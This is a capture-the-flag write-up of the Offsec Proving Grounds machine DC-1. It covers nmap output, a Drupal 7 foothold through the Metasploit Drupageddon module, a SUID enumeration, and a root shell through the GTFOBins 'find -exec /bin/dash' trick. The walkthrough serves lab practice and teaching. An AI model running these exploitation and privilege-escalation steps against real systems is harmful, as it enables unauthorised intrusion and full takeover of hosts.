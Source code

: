 ```yaml
---
title: "Proving grounds Play: DC-1"
layout: post
date: 2023-09-03 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Drupal Site | Drupal Site
|_http-server-header: Apache/2.2.22 (Debian)
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

Drupal Site running version 7.0, version extracted from the page source.

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
  <title>User account | Drupal Site</title>
```

Drupan 7 is vulnerable to Druppageddon vulnerability.

## Initial Foothold using Metasploit

```sh
exploit/multi/http/drupal_drupageddon
set rhosts
set lhost
exploit
```

![img](/assets/images/CTF/Proving_Grounds/DC-1/msf.png)

**User shell obtained**

![img](/assets/images/CTF/Proving_Grounds/DC-1/shell.png)

## Enumerate SUIDs

```sh
find / -perm -u=s -type f 2>/dev/null
```

**SUIDs**

```text
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

Binary `find` is in SUIDs. Search for exploit using GTFOBins.

### GTFO Bins exploit

```sh
find . -exec “/bin/dash” \; -quit
```

## Privilege Escalation

Create a file in the `tmp` directory for the exploit to work successfully.

Run the below expoit code to obtain root shell.

```sh
find file -exec "/bin/dash" \; -quit
```

![img](/assets/images/CTF/Proving_Grounds/DC-1/root.png)

**Root shell obtained.**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).